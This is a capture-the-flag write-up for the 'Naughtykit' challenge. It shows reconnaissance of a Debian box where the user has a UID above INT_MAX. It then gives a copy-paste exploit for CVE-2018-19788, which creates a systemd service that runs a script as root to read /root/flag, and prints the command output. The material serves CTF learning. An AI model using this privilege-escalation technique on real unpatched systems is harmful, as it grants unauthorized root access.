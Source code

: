 # Naughtykit - Pwn/misc (100)

O'boy, o'boy was this kit naughty this year or what. There's no present for him for sure! But .. what if he's too naughty?

Service: ssh -p 1217 naughtykit@3.81.191.176 (password: naughtykit)

## Analysis

This should have been more obvious than it was for me, but I wasn't as familiar with recent CVEs as I needed to be. Some initial analysis of the box gives us a high UID value and a Debian OS.

```
$ ssh -p 1217 naughtykit@3.81.191.176
naughtykit@3.81.191.176's password: 
Linux version 4.9.18-otw (root@vblx03) (gcc version 6.3.0 20170516 (Debian 6.3.0-18+deb9u1) ) #15 Fri Dec 7 16:31:26 CET 2018
...
Welcome to Debian GNU/Linux 9 (stretch)!

...


                  _
                _[_]_
                 (")
             `--( : )--'
               (  :  )
         jgs ""`-...-'""


username: elf
password: elf

You've been a naughty kit, ho-ho-hoo!

northpole login: elf (automatic login)

Linux northpole 4.9.18-otw #15 Fri Dec 7 16:31:26 CET 2018 x86_64
elf@northpole:~$ 
elf@northpole:~$ cat /etc/os-release 
PRETTY_NAME="Debian GNU/Linux 9 (stretch)"
NAME="Debian GNU/Linux"
VERSION_ID="9"
VERSION="9 (stretch)"
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
elf@northpole:~$ id
uid=4020181224(elf) gid=100(users) groups=100(users)
```

Some hints after the competition pointed me to the following links:

* [gitlab: unprivileged users with UID > INT_MAX can successfully execute any systemctl command](https://gitlab.freedesktop.org/polkit/polkit/issues/74)
* [github: unprivileged users with UID > INT_MAX can successfully execute any systemctl command](https://github.com/systemd/systemd/issues/11026)
* [CVE-2018-19788 Detail](https://nvd.nist.gov/vuln/detail/CVE-2018-19788)
* [github: Silly easy exploit for CVE-2018-19788](https://github.com/AbsoZed/CVE-2018-19788)

Enough experimenting shows that the 'elf' user we start with can indeed run `systemctl` commands which we should probably use to privesc and read whatever is in `/root/`

## Solution

Login and copy/paste the following:

```bash
cat <<EOF > /home/elf/pwn.sh
#!/bin/sh

ls -al /root/ > /home/elf/root_dir
cat /root/flag > /home/elf/flag
EOF

chmod 777 /home/elf/pwn.sh

cat <<EOF > /home/elf/pwn.service
[Unit]
Description=pwn
After=network.target
 
[Service]
ExecStart=/home/elf/pwn.sh
ExecReload=/home/elf/pwn.sh
Restart=on-failure
RuntimeDirectoryMode=0755
 
[Install]
WantedBy=multi-user.target
Alias=pwn.service
EOF

systemctl enable /home/elf/pwn.service
systemctl start pwn.service

cat flag
```

This eventually gets you the following:

```bash
...
elf@northpole:~$ systemctl enable /home/elf/pwn.service

(process:162): GLib-GObject-WARNING **: value "-274786072" of type 'gint' is invalid or out of range for property 'uid' of type 'gint'
**
ERROR:pkttyagent.c:175:main: assertion failed: (polkit_unix_process_get_uid (POLKIT_UNIX_PROCESS (subject)) >= 0)
Created symlink /etc/systemd/system/pwn.service → /home/elf/pwn.service.
Created symlink /etc/systemd/system/multi-user.target.wants/pwn.service → /home/elf/pwn.service.
elf@northpole:~$ systemctl start pwn.service

(process:179): GLib-GObject-WARNING **: value "-274786072" of type 'gint' is invalid or out of range for property 'uid' of type 'gint'
**
ERROR:pkttyagent.c:175:main: assertion failed: (polkit_unix_process_get_uid (POLKIT_UNIX_PROCESS (subject)) >= 0)
elf@northpole:~$ ll
total 12
drwx------ 2 elf  users 1024 Dec 28 05:21 .
drwxr-xr-x 3 root root  1024 Dec  6 23:48 ..
lrwxrwxrwx 1 root root     9 Dec  7 00:54 .bash_history -> /dev/null
-rw-r--r-- 1 elf  users  220 May 15  2017 .bash_logout
-rw-r--r-- 1 elf  users 3526 May 15  2017 .bashrc
-rw-r--r-- 1 elf  users  675 May 15  2017 .profile
-rw-r--r-- 1 root root    29 Dec 28 05:21 flag
-rw-r--r-- 1 elf  users  213 Dec 28 05:21 pwn.service
-rwxrwxrwx 1 elf  users   78 Dec 28 05:21 pwn.sh
-rw-r--r-- 1 root root   266 Dec 28 05:21 root_dir
elf@northpole:~$ cat flag 
AOTW{INtEgerzRhARds0mETIm35}
```